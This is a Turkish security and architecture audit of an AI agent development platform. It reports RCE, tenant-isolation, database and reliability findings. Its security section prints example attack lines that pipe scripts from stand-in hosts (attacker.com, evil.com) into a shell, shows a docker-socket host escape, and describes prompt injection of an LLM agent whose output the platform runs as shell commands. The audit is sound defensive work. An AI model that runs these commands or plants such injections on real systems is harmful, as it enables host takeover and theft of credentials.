



# Oscorpex Deep Codebase Audit

**Tarih:** 2026-05-15
**Yöntem:** 6 paralel uzman ajan ile yerel kod inceleme (güvenlik, mimari, veritabanı, frontend, test/kalite, performans/bellek)
**Kapsam:** Tam monorepo — kernel (99K LOC), console (64K LOC), 9 paket (10K LOC), 5 adaptör
**Dalga:** master (`2d7889b`)

---

## 1. Executive Summary

Oscorpex, kullanıcı fikirlerini 12-ajanlı otonom Scrum takımı ile DAG pipeline üzerinden yazılıma dönüştüren bir AI geliştirme platformudur. ~175K LOC, 85 PostgreSQL tablosu, 1031 test dosyası, 9 paylaşımlı paket ve 5 provider adaptörü içerir.

### Olgunluk Seviyesi: **Alpha — Geliştirici Prototipi**

### En Güçlü Mimari Nitelikler
1. **Katmanlı bağımlılık hiyerarşisi** — döngüsel bağımlılık yok, core yaprak paketi
2. **DB-first durum yönetimi** — `SELECT FOR UPDATE SKIP LOCKED` ile çift çalışma önleme
3. **Uyarlanabilir eşzamanlılık** — dinamik semafor, hata oranına dayalı ayarlama
4. **Pure paket ayrımı** — memory-kit, policy-kit, task-graph, verification-kit yan etkisiz
5. **Kapsamlı boot faz sistemi** — 10+ deterministik faz sırası

### En Yüksek Risk Alanları
1. **3 ayrı RCE vektörü** — terminal route, LLM-to-shell pipeline, container injection
2. **RLS NULL escape** — legacy projeler tüm tenant'lara görünür
3. **FORCE ROW LEVEL SECURITY eksik** — tablo sahibi tüm RLS'yi bypass eder
4. **Execution pipeline testleri sıfır** — sistemin kalbi 10 dosya, 0 test
5. **Para değerleri float32** — maliyet hesaplarında yuvarlama hatası

### Üretime Hazır mı?
**HAYIR.** 3 CRITICAL güvenlik açığı, 4 CRITICAL veritabanı açığı ve execution pipeline test yokluğu nedeniyle üretim kullanımı güvenli değil.

### Hermes Benzeri Entegrasyon Eklenebilir mi?
**HAYIR — henüz değil.** Tool policy, verification hard gate, tenant izolasyonu ve checkpoint/rollback stabilize edilmeden yeni entegrasyon eklenmemeli.

### Top 10 Sonraki Eylem
1. Terminal exec route'u üretimde kaldır veya kısıtla (SEC-001/002)
2. LLM çıktısından shell komutu çalıştırmayı durdur (SEC-003)
3. `FORCE ROW LEVEL SECURITY` ekle tüm RLS tablolarına (DB-004)
4. RLS `tenant_id IS NULL` escape'ini kapat (DB-001)
5. Auth'u varsayılan olarak zorunlu yap (SEC-006)
6. Execution pipeline birim testleri yaz (QA-001)
7. `REAL` → `NUMERIC(12,6)` para dönüşümü (DB-003)
8. Coverage threshold ekle vitest'e (QA-007)
9. Event bus handler hatalarına loglama ekle (ARCH-01)
10. `focus:outline-none` → `focus-visible:ring` erişilebilirlik düzeltmesi (FE-02)

---

## 2. Confidence and Methodology

| Alan | Kanıt Kaynağı | Güven | Notlar |
|------|--------------|-------|--------|
| Güvenlik | Doğrudan kod okuma (23 dosya) | %95 | credential-vault hook tarafından engellendi |
| Mimari | Tüm motor fasadları + paketler okuma | %95 | Tam kod inceleme |
| Veritabanı | init.sql + 15 repo dosyası okuma | %90 | Canlı DB erişimi yok |
| Frontend | 21 sayfa + hook + config okuma | %85 | Render test yapılmadı |
| Test/Kalite | Test dosya envanteri + CI config | %90 | Coverage raporu çalıştırılmadı |
| Performans | Repo + cache + pool okuma | %85 | EXPLAIN ANALYZE yapılmadı |

**Yöntem:** 6 uzman ajan paralel olarak farklı domainleri inceledi. Her ajan ilgili dosyaları doğrudan okudu (README yorumlaması değil). Toplamda 300+ dosya incelendi, 20+ grep/search komutu çalıştırıldı.

**Kısıtlamalar:**
- Canlı veritabanı sorgusu yapılmadı (EXPLAIN ANALYZE, pg_stat_statements)
- Runtime profiling yapılmadı (heap snapshot, event loop lag)
- credential-vault.ts bir hook tarafından okumaya engellendi
- Provider adaptörleri stub — gerçek CLI çağrısı test edilmedi

---

## 3. Repository Map

### Repository Tree Summary

```
oscorpex/
├── apps/
│   ├── kernel/             # Backend — Hono + PostgreSQL (99,854 LOC, 513 TS dosya)
│   │   ├── src/studio/     # Core platform (~53K LOC)
│   │   ├── src/routes/     # 32 Hono sub-router
│   │   ├── src/boot-phases/# 10+ boot faz modülü
│   │   └── scripts/init.sql# 85 tablo (idempotent)
│   └── console/            # Frontend — React 19 + Vite (64,479 LOC, 394 dosya)
│       ├── src/pages/      # 49 sayfa
│       ├── src/hooks/      # WebSocket, notifications, collaboration
│       └── src/lib/        # API client, utilities
├── packages/
│   ├── core/               # Domain types + utilities (2,218 LOC)
│   ├── control-plane/      # Operator governance (2,449 LOC)
│   ├── event-schema/       # Event type definitions (1,690 LOC)
│   ├── memory-kit/         # Context packet builder (343 LOC)
│   ├── observability-sdk/  # Checkpoint, journal (256 LOC)
│   ├── policy-kit/         # Command + sandbox enforcement (1,300 LOC)
│   ├── provider-sdk/       # CLI adapter contracts (1,500 LOC)
│   ├── task-graph/         # DAG data structures (800 LOC)
│   └── verification-kit/   # Output verification (289 LOC)
├── adapters/
│   ├── provider-claude/    # Claude Code CLI (olgun)
│   ├── provider-codex/     # Codex CLI (sınırlı)
│   ├── provider-cursor/    # Cursor CLI (sınırlı)
│   ├── provider-gemini/    # Gemini CLI
│   └── provider-ollama/    # Ollama yerel
├── docker-compose.yml      # PostgreSQL + backend + console + agent pool
├── Dockerfile              # Multi-stage Node 22 Alpine
└── .github/workflows/ci.yml# lint → typecheck → test → build → docker
```

### Package Responsibility Table

| Yol | Sorumluluk | Bağımlılık | Risk | Not |
|-----|-----------|-----------|------|-----|
| `packages/core` | Domain tipleri, hatalar, yardımcılar | Yok (yaprak) | Düşük | Tüm paketlerin temeli |
| `packages/event-schema` | Tipli event payload haritası | core | Düşük | Temiz tip katmanı |
| `packages/memory-kit` | Context packet builder | core | Düşük | Pure fonksiyonlar |
| `packages/observability-sdk` | Checkpoint, nedensellik | core | Düşük | Pure fonksiyonlar |
| `packages/policy-kit` | Politika, sandbox, komut denetimi | core | Düşük | İyi izole |
| `packages/provider-sdk` | CLI runner, maliyet, sağlık cache | core | Orta | Singleton içerir |
| `packages/task-graph` | DAG topolojisi, Kahn, dalga | core | Düşük | Kapsamlı |
| `packages/verification-kit` | Dosya doğrulama, çıkış kapıları | core | Düşük | Pure |
| `packages/control-plane` | Operatör yönetişimi | pg (doğrudan) | Orta | Kendi DB pool'u |
| `adapters/provider-*` | CLI adaptörleri | core, provider-sdk | Düşük | 5 adaptör |
| `apps/kernel` | Backend orchestration | Tüm paketler | **Yüksek** | ~93K LOC, 85 tablo |
| `apps/console` | Frontend UI | HTTP proxy → kernel | Orta | ~60K LOC |

### Main Entry Points
- **Kernel:** `apps/kernel/src/index.ts` → `boot.ts` → 10+ faz → HTTP :3141
- **Console:** `apps/console/src/main.tsx` → React Router → 49 sayfa → proxy → :3141
- **DB:** `apps/kernel/scripts/init.sql` — 85 tablo, idempotent

### Build/Test Commands
```bash
pnpm dev              # Kernel tsx watch (:3141)
pnpm dev:console      # Frontend Vite (:5161)
pnpm build            # Tüm workspace build
pnpm typecheck        # tsc --noEmit
pnpm lint             # biome check
pnpm test             # vitest (serialized, DB-backed)
```

---

## 4. Architecture Overview

### High-Level Architecture



### Package Dependency Diagram



### Architecture Risk Table

| Sınır | Durum | Risk | Not |
|-------|-------|------|-----|
| Paket döngüsel bağımlılık | Yok | Düşük | Temiz tek yönlü ağaç |
| Core/infra ayrımı | İyi | Düşük | Pure paketler yan etkisiz |
| Provider sızıntısı | Minimal | Düşük | Adaptörler ProviderAdapter arayüzü uygular |
| DB/HTTP/UI ayrımı | İyi | Düşük | Repo katmanı → route katmanı |
| Event tipi/versiyonu | Kısmi | Orta | 3 event tipi `as any` ile bypass |
| Durum geçişleri | Merkezi ama atomik değil | Orta | Pipeline atomik, task atomik değil |
| control-plane sınırı | Gevşek | Düşük | core bağımlılığı eksik |

---

## 5. Runtime Execution Flow

### Task State Machine



### Execution Flow

```
PM Agent → Plan + Phase + Task oluştur (DB)
  → Pipeline aşamaları oluştur
  → ExecutionEngine.startProjectExecution()
    → TaskDispatcher.getReadyTasks(phaseId)
    → paralel: ExecutionEngine.executeTask(task)
      → Semaphore acquire
      → claimTask(SELECT FOR UPDATE SKIP LOCKED)
      → TaskExecutor.assemblePrompt()
      → ProviderExecutionService.execute(input)
        → Fallback zinciri: Claude → Codex → Cursor → ...
      → NormalizedResult → completeTask()
      → EventBus: task:completed
      → checkAndAdvancePhase()
      → Semaphore release
      → dispatchReadyTasks() (sonraki dalga)
```

### Failure Mode Table

| Hata Modu | Koruma | Kalan Risk |
|-----------|--------|-----------|
| Çift çalışma | SELECT FOR UPDATE SKIP LOCKED + dispatchingTasks Set | Düşük |
| Sonsuz takılma | Timeout policy + ExecutionWatchdog (15s) + recoverStuckTasks | Düşük — CLI SIGTERM ignore riski |
| Yanlış aşama ilerleme | Pipeline kilidi + replan gate + görev durum kontrolü | Düşük |
| Event handler hatası | Sessizce yutulur — **loglama yok** | **Orta** |
| Crash kurtarma | recoverStuckTasks() → running/assigned → queued | Düşük |
| İptal yarışı | AbortController + gorev "queued"a sıfırlama | Düşük — kısmi dosya riski |

### Reliability Findings

Aşağıdaki bölüm 6-15'te detaylı bulgular verilmiştir. Özet:
- **Çift çalışma koruması:** Sağlam (çok katmanlı)
- **Durum geçişleri:** Pipeline atomik, task atomik değil
- **Dead-letter queue:** Yok — 3 retry sonrası "failed" kalır
- **Retry idempotentliği:** Evet — her deneme temiz
- **Event handler izolasyonu:** Var ama loglama eksik

---

## 6. Security Findings

### SEC-001: Terminal Route ile Uzaktan Kod Çalıştırma (RCE)

- **Severity:** CRITICAL
- **Category:** Security — Shell Injection / RCE
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/routes/terminal-routes.ts:67`
- **Evidence:** `execSync(command, { cwd, timeout: 30_000 })` — `command` doğrudan HTTP body'den geliyor. 13 substring'lik kara liste kolayca bypass edilebilir.
- **Attack scenario:** `POST /projects/:id/terminal/exec` ile `{"command": "curl attacker.com/shell.sh | /bin/bash"}` — kara liste `curl | bash` kontrol ediyor ama `/bin/bash` yolunu kontrol etmiyor.
- **Impact:** Tam RCE — Node.js process ayrıcalıklarıyla host üzerinde her şey yapılabilir.
- **Recommended fix:** Terminal exec route'u üretimde kaldır. Geliştirmede: allowlist, `execFileSync` kullan, RBAC `terminal:exec` izni ekle.
- **Regression test:** `/bin/sh -c 'id'`, `python3 -c 'import os; os.system("id")'`, backtick variants gönder → hepsi engellensin.

### SEC-002: Terminal Route Yetki Matrisinde Yok

- **Severity:** CRITICAL
- **Category:** Security — Authorization Bypass
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/auth/route-permissions.ts` — "terminal" hiç geçmiyor
- **Evidence:** Catch-all wildcard'a düşüyor: `projects:update` izni yeterli. Dev modda auth tamamen devre dışı.
- **Impact:** `projects:update` izni olan herkes (yani tüm geliştiriciler) OS komutu çalıştırabilir.

### SEC-003: LLM Çıktısından Shell Komutu Çalıştırma

- **Severity:** CRITICAL
- **Category:** Security — LLM Output Trust
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/task-runners.ts:68,159`
- **Evidence:** `extractCliCommands(description)` backtick-wrapped komutları çıkarıp `execSync(cmd)` ile çalıştırıyor. `description` PM agent'ın LLM çıktısından geliyor.
- **Attack scenario:** Prompt injection → PM agent task description'a `` `node -e "require('child_process').execSync('curl evil.com/pwn|sh')"` `` yerleştiriyor → execSync çalıştırıyor.
- **Impact:** LLM çıktısından tam RCE. Kimlik doğrulama gerektirmez — sadece PM agent'ın crafted description üretmesi yeterli.
- **Recommended fix:** LLM çıktısından komut çalıştırmayı durdurun. İnsan onayı gereksin. Container pool içinde çalıştırın.

### SEC-004: Container Pool Shell Injection (Heredoc Escape)

- **Severity:** HIGH
- **Category:** Security — Shell Injection
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/container-pool.ts:382`
- **Evidence:** `sh -c` ile heredoc'a env değerleri interpolate ediliyor. `ENVEOF` string'i içeren değer heredoc'u kapatır.
- **Impact:** Container içinde arbitrary kod çalıştırma.
- **Recommended fix:** Array-based `Cmd` kullan, stdin pipe ile yaz.

### SEC-005: Docker Socket Mount — Container Breakout

- **Severity:** HIGH
- **Category:** Security — Container Security
- **Status:** Confirmed
- **File(s):** `docker-compose.yml:50`
- **Evidence:** `/var/run/docker.sock:/var/run/docker.sock` mount edilmiş.
- **Impact:** Backend container içinden host dosya sistemi erişimi. `docker run -v /:/host --privileged alpine chroot /host sh` ile tam host compromise.
- **Recommended fix:** DinD veya socket proxy kullan.

### SEC-006: Geliştirme Modunda Varsayılan Auth Bypass

- **Severity:** HIGH
- **Category:** Security — Authentication
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/auth/auth-middleware.ts:108-115`, `auth/rbac.ts:135`
- **Evidence:** `OSCORPEX_API_KEY` set edilmemişse VE `NODE_ENV !== "production"` ise → `authType="none"` → tüm RBAC skip.
- **Impact:** SEC-001 ile birlikte: kimlik doğrulamasız RCE.

### SEC-007: Hardcoded JWT Secret

- **Severity:** HIGH
- **Category:** Security — Secrets
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/auth/jwt.ts:9-15`
- **Evidence:** `"oscorpex-dev-secret-change-in-production"` fallback, repo'da görünür.
- **Impact:** Staging ortamında JWT forge edilebilir → tenant impersonation.

### SEC-008: db-provisioner Shell Injection

- **Severity:** HIGH
- **Category:** Security — Shell Injection
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/db-provisioner.ts:111`
- **Evidence:** `` execSync(`lsof -i :${port}`) `` — port string coercion riski.
- **Recommended fix:** `execFileSync("lsof", ["-i", `:${port}`])` kullan.

### SEC-009: App Runner Kullanıcı Repo Script'lerini Host'ta Çalıştırıyor

- **Severity:** HIGH
- **Category:** Security — Arbitrary Code Execution
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/app-runner/starter.ts:195`
- **Evidence:** `execSync(\`${pmCmd} run ${scriptName}\`, { env: { ...process.env, ...dbEnvVars } })` — tüm server env varları (JWT secret, DB URL) child process'e geçiyor.
- **Impact:** LLM-generated `package.json` script'i server credential'larını exfiltrate edebilir.

### SEC-010: SSRF — Webhook'ta Async DNS Doğrulaması Yapılmıyor

- **Severity:** HIGH
- **Category:** Security — SSRF
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/webhook-sender.ts:325`
- **Evidence:** `validateWebhookUrl()` (senkron, DNS çözümlemesi yok) kullanılıyor. `resolveAndValidateUrl()` (async, DNS çözümlemeli) mevcut ama çağrılmıyor.
- **Impact:** DNS rebinding ile cloud metadata erişimi.

### SEC-011: Agent Route Mass Assignment

- **Severity:** MEDIUM
- **Category:** Security — Mass Assignment
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/routes/agent-routes.ts:70`
- **Evidence:** `const agent = await createAgentConfig({ ...body, isPreset: false })` — body spread.
- **Impact:** `systemPrompt` injection → agent davranış manipülasyonu.

### SEC-012: Project Update Mass Assignment

- **Severity:** MEDIUM
- **Category:** Security — Mass Assignment
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/routes/project-crud-routes.ts:239-241`
- **Evidence:** `updateProject(id, body)` — `repoPath` override riski.
- **Impact:** Terminal exec ile birlikte: file system traversal.

### SEC-013: Rate Limiting Kapsam Yetersizliği

- **Severity:** MEDIUM
- **Category:** Security — DoS
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/routes/index.ts:117-120`
- **Evidence:** Sadece 4 route pattern'de rate limit var. Terminal exec, webhook, agent creation → sınırsız.

### SEC-014: Rate Limiter X-Forwarded-For Spoofing

- **Severity:** MEDIUM
- **Category:** Security — Rate Limiting
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/middleware/rate-limiter.ts:30`
- **Evidence:** `X-Forwarded-For` doğrudan güveniliyor → her request'te farklı IP spoofing.

### SEC-017: Command Policy Sadece Post-Execution Audit

- **Severity:** MEDIUM
- **Category:** Security — Defense in Depth
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/execution/task-executor.ts:398`
- **Evidence:** Komut politikası prompt'a enjekte ediliyor ("bunu yapma" tarzında) ve çalışma SONRASINDA audit ediliyor. LLM prompt'u ignore edebilir.
- **Impact:** Tüm komut politika sistemi tavsiye niteliğinde, zorlayıcı değil.

### SEC-018: Shared repos Volume — Cross-Project Erişim

- **Severity:** MEDIUM
- **Category:** Security — Data Isolation
- **Status:** Confirmed
- **File(s):** `docker-compose.yml:49,99`
- **Evidence:** Backend ve tüm agent container'ları aynı `repos` volume'ü paylaşıyor.

---

## 7. Database and Multi-Tenancy Findings

### DB-001: RLS NULL Escape — Cross-Tenant Veri Sızıntısı

- **Severity:** CRITICAL
- **Category:** Database — Multi-Tenancy
- **Status:** Confirmed
- **File(s):** `apps/kernel/scripts/init.sql:1379-1446`
- **Evidence:** Her RLS politikası: `tenant_id IS NULL OR tenant_id = current_setting(...)`. Legacy projeler (tenant_id NULL) tüm tenant'lara görünür.
- **Impact:** Tam cross-tenant veri sızıntısı.
- **Recommended fix:** `COALESCE(tenant_id, 'legacy') = current_setting(...)` veya legacy verilere tenant_id backfill.

### DB-002: `listProjects()` Tenant Filtresi Yok

- **Severity:** CRITICAL
- **Category:** Database — Multi-Tenancy
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/db/project-repo.ts:49`
- **Evidence:** `SELECT * FROM projects` — WHERE yok. `execution-recovery.ts`, `analytics-routes.ts`, `report-generator.ts` bu fonksiyonu tenant context set etmeden çağırıyor.
- **Impact:** Tüm projeler tüm kullanıcılara ifşa.

### DB-003: Para Değerleri REAL (float32)

- **Severity:** CRITICAL
- **Category:** Database — Veri Bütünlüğü
- **Status:** Confirmed
- **File(s):** `apps/kernel/scripts/init.sql` — `token_usage.cost_usd`, `agent_daily_stats.cost_usd`, `agent_episodes.cost_usd`
- **Evidence:** 32-bit float ile SUM(cost_usd) hesabında yuvarlama hatası birikir.
- **Recommended fix:** `ALTER TABLE ... ALTER COLUMN cost_usd TYPE NUMERIC(12,6)`

### DB-004: FORCE ROW LEVEL SECURITY Eksik

- **Severity:** CRITICAL
- **Category:** Database — Multi-Tenancy
- **Status:** Confirmed
- **File(s):** `apps/kernel/scripts/init.sql`
- **Evidence:** `ALTER TABLE ... ENABLE ROW LEVEL SECURITY` var ama `FORCE` yok. Tablo sahibi (uygulama bağlantı kullanıcısı) tüm RLS'yi bypass eder.
- **Recommended fix:** `ALTER TABLE ... FORCE ROW LEVEL SECURITY` ekle tüm tablolara.

### DB-006: approveProposal ile Oluşturulan Task'lara tenant_id Atanmıyor

- **Severity:** HIGH
- **Category:** Database — Multi-Tenancy
- **Status:** Confirmed
- **Evidence:** Task oluşturma sırasında tenant_id set edilmiyor → tüm tenant'lara görünür.

### DB-007: Manuel BEGIN/COMMIT — Connection Leak Riski

- **Severity:** HIGH
- **Category:** Database — Reliability
- **Status:** Confirmed
- **File(s):** `dependency-repo.ts`, `settings-repo.ts`, `provider-repo.ts`
- **Evidence:** `withTransaction()` yerine manuel `BEGIN/COMMIT` kullanılıyor. Hata durumunda connection dönmeyebilir.

### DB-009: Unbounded Sorgular

- **Severity:** HIGH
- **Category:** Database — Performance
- **File(s):** `listProjects()`, `listProjectTasks()`
- **Evidence:** LIMIT yok. memory-adapter.ts aynı projeyi 4 kez tam yüklüyor.

### Tenant Isolation Matrix (Örnekler)

| Tablo | tenant_id var? | RLS var? | FORCE var? | Risk |
|-------|-------------|---------|-----------|------|
| projects | Evet | Evet | Hayır | CRITICAL |
| tasks | Evet (direkt) | Evet | Hayır | CRITICAL |
| phases | Evet | Evet | Hayır | CRITICAL |
| agent_sessions | **Hayır** | **Hayır** | — | HIGH |
| agent_episodes | **Hayır** | **Hayır** | — | HIGH |
| task_proposals | **Hayır** | **Hayır** | — | HIGH |
| approvals | **Hayır** | **Hayır** | — | HIGH |
| memory_facts | project_id var | Hayır | — | MEDIUM |
| skills | **Hayır** | **Hayır** | — | MEDIUM |
| events | project_id var | Hayır | — | MEDIUM |

---

## 8. Execution Reliability Findings

### ARCH-01: Event Bus Handler Hataları Sessizce Yutulur

- **Severity:** MEDIUM
- **Category:** Runtime — Observability
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/event-bus.ts:112-115, 127-129, 162-165, 239-242`
- **Evidence:** 4 catch bloğunda `/* subscriber error — ignore */` — sıfır loglama.
- **Recommended fix:** `log.warn({ err, eventType }, "[event-bus] subscriber threw")` ekle.

### ARCH-03: CLI Process SIGKILL Escalation Eksik

- **Severity:** HIGH
- **Category:** Runtime — Reliability
- **Status:** Likely
- **File(s):** `apps/kernel/src/studio/execution/task-executor.ts:157-159`
- **Evidence:** `AbortController.signal` CLI adaptöre iletilir ama SIGTERM ignore edilirse SIGKILL yükseltmesi yok.
- **Impact:** Zombi process semafor yuvasını sonsuza kadar bloke eder. 3 zombi tüm dispatch'i durdurur.
- **Recommended fix:** `provider-sdk`'de SIGTERM sonrası 10s SIGKILL timer ekle.

### ARCH-04: Görev Durum Geçişleri Atomik Değil

- **Severity:** MEDIUM
- **Category:** Data Consistency
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/execution/task-executor.ts:195-213`
- **Evidence:** `startTaskForExecution()` → durum güncelleme → `assemblePrompt()` → CLI başlatma. Ara fail'de görev "running" kalır.

### ARCH-05: Dead-Letter Queue Yok

- **Severity:** MEDIUM
- **Category:** Architecture — Resilience
- **Status:** Confirmed
- **Evidence:** 3 retry sonrası görevler "failed" kalır — escalation veya bildirim yok.

### ARCH-10: insertNode TOCTOU Yarışı

- **Severity:** MEDIUM
- **Category:** Data Integrity — DAG Safety
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/graph-coordinator.ts:43-76`
- **Evidence:** ÖNCE görev oluşturulur, SONRA döngü kontrolü yapılır. Döngü tespit edilirse görev yetim kalır.

---

## 9. Provider Adapter Findings

### Provider Capabilities Matrix

| Adaptör | Araç Kısıtlama | Akış | Devam | İptal | Yapısal Çıktı | Maliyet İzleme |
|---------|--------------|------|-------|-------|---------------|---------------|
| Claude Code | Evet | Evet | Evet | Evet (sinyal) | Evet | Evet |
| Codex | Hayır | Hayır | Hayır | Hayır | Hayır | Evet |
| Cursor | Hayır | Hayır | Hayır | Hayır | Hayır | Hayır |
| Gemini | — | — | — | — | — | — |
| Ollama | — | — | — | — | — | Ücretiz |

**Sınır temizliği:** İyi. Tüm adaptörler `ProviderAdapter` arayüzü + `@oscorpex/provider-sdk` yardımcıları kullanıyor. Hata normalizasyonu tipli: `ProviderUnavailableError`, `ProviderTimeoutError`, `ProviderExecutionError`.

**Eksiklik:** Codex ve Cursor adaptörleri araç kısıtlama, akış ve iptal desteğinden yoksun. Yeni provider eklemek core değiştirmeyi gerektirmiyor (iyi).

---

## 10. Task Graph and Scheduling Findings

### DAG Integrity

- **Döngü algılama:** Kahn algoritması + DFS (`wouldCreateCycle`) → sağlam
- **Kenar korumaları:** Öz-kenar, yinelenen kenar, görev bulunamadı + `GraphInvariantError`
- **Enjeksiyon limitleri:** Per-task quota 3, per-phase budget 10, recursion depth 2, dedup
- **Mutasyon denetimi:** Tüm mutasyonlar `graph_mutations` tablosunda kayıtlı

### Scheduler

- **Adil zamanlama:** Kısa → orta → uzun, taze görevler önce, FIFO
- **Uyarlanabilir eşzamanlılık:** Dinamik semafor (1-10, varsayılan 3), 30s ayarlama periyodu
- **Kuyruk sınırı:** `max * 10` — bellek taşması koruması

### Risk

| Risk | Etki | Olasılık |
|------|------|---------|
| insertNode TOCTOU yetim görev | Düşük | Orta |
| wouldCreateCycle O(V+E) DB sorguları | Performans | Büyük graflarda |
| Faz sınırları arası enjeksiyon | Karışıklık | Düşük |

---

## 11. Verification and Quality Gate Findings

### VER-001: `lenient` Modda files_exist Kontrolü Bypass Edilebilir

- **Severity:** HIGH
- **Category:** Verification
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/execution-gates.ts:88-99`
- **Evidence:** `strictness === "strict" && hasFileFail` — lenient modda dosya kontrolü atlanıyor.
- **Impact:** Agent "dosya oluşturdum" deyip hiçbir dosya oluşturmasa bile task tamamlanıyor.
- **Recommended fix:** `files_exist` kontrolünü her modda zorunlu yap.

### VER-002: Verification Sonucu Advisory — Exception Fırlatmıyor

- **Severity:** MEDIUM
- **Category:** Verification
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/output-verifier.ts:67-68`
- **Evidence:** `verifyTaskOutput` exception fırlatmıyor — caller `allPassed` kontrol etmezse sessizce geçer.

### Target Verification Pipeline

```
Agent → patch önerir
  → checkpoint oluşturulur
  → diff risk skoru üretilir
  → secret scan
  → typecheck
  → birim/entegrasyon testi
  → politika kontrolü
  → onay kapısı (gerekirse)
  → birleştirme/uygulama ancak tüm kapılar geçerse
```

**Mevcut durum:** Bu pipeline'ın çoğu parçası mevcut (verification-kit, policy-kit, quality-gate-service, approval-service) ancak **advisory niteliğinde** — zorunlu değil. Verification hard gate haline getirilmeli.

---

## 12. Memory / Learning / Skill Findings

### MEM-001: getMemoryFacts Tenant Filtresi Yok

- **Severity:** HIGH
- **Category:** Memory — Security
- **Status:** Confirmed
- **File(s):** `apps/kernel/src/studio/db/memory-repo.ts:116-127`
- **Evidence:** Sadece `project_id` filtresi — `tenant_id` yok.
- **Impact:** Cross-tenant memory erişimi riski.

### MEM-003: Cross-Project Learning Anonimleştirme Yetersiz

- **Severity:** MEDIUM
- **Category:** Memory — Security
- **File(s):** `apps/kernel/src/studio/cross-project-learning.ts:304-306`
- **Evidence:** `anonymized.tenantSpecific = undefined` — sadece bu alan siliniyor, diğer tenant-specific alanlar (`repoPath`, `teamName`) global pattern'e taşınabiliyor.
- **Recommended fix:** Allowlist-based anonimleştirme kullan.

### Skills System Maturity

| Kriter | Durum |
|--------|-------|
| DB şema (3 tablo) | İyi |
